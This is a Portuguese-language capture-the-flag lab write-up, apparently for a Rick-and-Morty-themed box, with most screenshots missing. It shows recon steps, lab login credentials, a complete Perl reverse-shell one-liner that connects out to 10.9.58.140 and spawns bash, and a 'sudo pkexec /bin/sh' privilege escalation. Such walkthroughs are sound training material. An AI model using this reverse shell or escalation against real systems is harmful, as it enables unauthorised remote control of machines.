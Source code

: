 Enumeração de serviços:
![[Pasted image 20240203150806.png]]
Listagem de diretórios e arquivos:
![[Pasted image 20240203152423.png]]
Descoberta de usuário no código fonte:
![[Pasted image 20240203152531.png]]
Descoberta da senha em `/robots.txt`:
![[Pasted image 20240203153148.png]]
Login no painel em `/login.php`:
`R1ckRul3s:Wubbalubbadubdub`

Uma caixa com execução de comandos é exibida após o login. Alguns comandos foram desativados pelo sistema.
Vamos utilizar shell reversa em Perl:
```bash
perl -e 'use Socket;$i="10.9.58.140";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

Estamos no alvo:
![[Pasted image 20240203160512.png]]
Analisando os binários e SUID do usuário, podemos perceber que o mesmo tem permissão para executar qualquer binário com sudo e temos também o binário pkexec. Vamos então escalar o privilégio com o comando `sudo pkexec /bin/sh`:

![[Pasted image 20240203161334.png]]